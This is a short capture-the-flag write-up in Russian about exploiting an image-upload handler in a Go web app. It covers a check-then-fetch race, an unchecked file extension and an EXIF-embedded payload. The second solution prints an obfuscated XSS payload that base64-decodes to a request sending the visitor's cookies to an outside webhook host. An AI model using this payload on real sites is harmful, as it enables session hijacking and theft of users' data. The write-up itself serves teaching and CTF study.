 # Writeup

## Решение №1 (Предполагалось изначально)

В функции SaveImage, которая совершает сохранение картинки, проверки на наличие картинки совершаются (47-53) но потом отдельным запросом сервер скачивает картинку (55)

helpers.go 47-55
```go
if !CheckURLExistence(url) {
	return "", fmt.Errorf("URL does not exist: %s", url)
}

if !IsPicture(url) {
	return "", fmt.Errorf("URL is not a picture: %s", url)
}

resp, err := http.Get(url)
```

Это можно проэксплуатировать если на запросы проверки отдавать валидную картинку, а потом отдать файл с нагрузкой.\
Код сервера который делает именно это приведен в [скрипте](writeup/server.py)

## Решение №2 (Найдено участниками)

В той же функции SaveImage, файлик сохраняется без проверки переменной ext.\
Следовательно туда можно впихнуть нагрузку.

helpers.go SaveImage 66-68
```go
parts := strings.Split(url, ".")
ext := parts[len(parts) - 1]
outputPath := filepath.Join("static/", uuid + "." + ext)
```

А чтобы обойти разделение по точке, можно использовать такой пейлоад.
Пример:
```javascript
"></iframe><svg id='' onload=eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2JiMDJhMDFjLTE4ZWEtNDViNC05NDhiLWFjYWY5ODUzNDJlYycsIHttZXRob2Q6ICdQT1NUJyxtb2RlOiAnbm8tY29ycycsYm9keTpkb2N1bWVudC5jb29raWV9KQ=='))><iframe src="/
```

## Решение №3 (Найдено участниками)

Работает из-за того что отсутствует проверка на расширение картинки.

Соответсвенно можно отдать серверу картинку с расширением `.html` и нагрузкой в коментарии exif.\
Что можно сделать например с помощью exiftool.
Все проверки пройдут и картинка с нагрузкой будет опубликована.